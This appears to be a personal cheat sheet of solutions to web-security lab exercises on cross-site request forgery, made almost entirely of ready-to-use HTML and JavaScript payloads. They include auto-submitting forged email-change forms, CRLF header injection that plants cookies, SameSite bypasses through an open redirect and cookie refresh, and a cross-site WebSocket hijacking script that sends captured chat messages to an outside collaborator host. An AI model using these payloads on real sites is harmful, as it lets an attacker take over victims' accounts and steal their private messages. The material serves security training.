 # CSRF

## CSRF Basic

```html
<html>
  <body>
    <form action="https://<your-lab-id>/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="asdf&#64;asdf&#46;asdf" />
      <input type="hidden" name="csrf" value="Sva13Y6L5p53RX36TctucnIF9uidTLQ1" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## CSRF when validation depends on method

```html
<html>
  <body>
    <form action="https://<your-lab-id>/my-account/change-email" method="GET">
      <input type="hidden" name="email" value="asdf&#64;asdf&#46;asdf" />
      <input type="hidden" name="csrf" value="Sva13Y6L5p53RX36TctucnIF9uidTLQ1" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## CSRF when validation depends on parameter

```html
<html>
  <body>
    <form action="https://<your-lab-id>/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="asdf&#64;asdf&#46;asdf" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## CSRF when token is not tied to user
 
- All you need to do is log in, go into developer tools and copy the current CSRF token

```html
<html>
  <body>
    <form action="https://<your-lab-id>/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="asdf&#64;asdf&#46;asdf" />
      <input type="hidden" name="csrf" value="dv8v5Gdv5Lf2zec2BoIKTKmkvDdRj4bw" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## CSRF when token is tied to non-session cookie

```html
<html>
  <body>
    <form action="https://<your-lab-id>/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="asdf&#64;asdf&#46;asdf" />
      <input type="hidden" name="csrf" value="8jKJhpk3fHoEPQgFAYt4xHaeC7aLvT1R" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://<your-lab-id>/?search=test%0d%0aSet-Cookie:%20csrfKey=SQ4BFfEbxcLoK5Y07lSf9vVbHw7QaI3r%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```

## CSRF when token is duplicated in cookie 

```html
<html>
  <body>
    <form action="https://<your-lab-id>/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="asdf&#64;asdf&#46;asdf" />
      <input type="hidden" name="csrf" value="YOWwenYebAJYEkOdN7yrXZEZbzjzRFxN" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://<your-lab-id>/?search=test%0d%0aSet-Cookie:%20csrf=YOWwenYebAJYEkOdN7yrXZEZbzjzRFxN%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```

## CSRF Samesite Lax bypass

- _method changes the method if allowed

```html
<html>
  <body>
    <form action="https://<your-lab-id>/my-account/change-email">
      <input type="hidden" name="email" value="asdf&#64;asdf&#46;asdf" />
      <input type="hidden" name="&#95;method" value="POST" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## CSRF SameSite strict via client open redirect

```html
<script>
    document.location = "https://<your-lab-id>/post/comment/confirmation?postId=../my-account/change-email?email=asdf%40asdf.asdf%26submit=1";
</script>
```

## CSRF SameSite Strict via sibling domain

- This lab uses cross-site websocket hijacking

```html
Connect to websocket script
<script>
    var ws = new WebSocket('wss://<your-lab-id>/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://<your-collaborator>', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>

    Used the second domain that was vulnerable to XSS to send in this script on exploit server
<script>
    document.location = "https://<your-second domain>/login?username=%3Cscript%3E+++++var+ws+%3D+new+WebSocket%28%27wss%3A%2F%2F<your-lab-id%2Fchat%27%29%3B+++++ws.onopen+%3D+function%28%29+%7B+++++++++ws.send%28%22READY%22%29%3B+++++%7D%3B+++++ws.onmessage+%3D+function%28event%29+%7B+++++++++fetch%28%27https%3A%2F%2F1y<your-collaborator>%27%2C+%7Bmethod%3A+%27POST%27%2C+mode%3A+%27no-cors%27%2C+body%3A+event.data%7D%29%3B+++++%7D%3B+%3C%2Fscript%3E&password=pas"
</script>
```

## CSRF bypass via cookie refresh
- Only works for SSO because SSO disables Lax for 2 minutes

```html
<html>
  <body>
    <form action="https://<your-lab-id>/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      window.onclick = () => {
        window.open('https://<your-lab-id>/social-login');
      }
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## CSRF where referer header must be present

- meta tag removes the header

```html
<html>
<meta name="referrer" content="never"/>
  <body>
    <form action="https://<your-lab-id>/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="asdf&#64;asdf&#46;asdf" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## CSRF with bad referer validation

- pushState sets what comes after first /
- Also I need to put: Referrer-Policy: unsafe-url in headers

```html
<html>
  <body>
    <form action="https://<your-lab-id>/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="asdf&#64;asdf&#46;asdf" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/csrf?<your-lab-id>');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
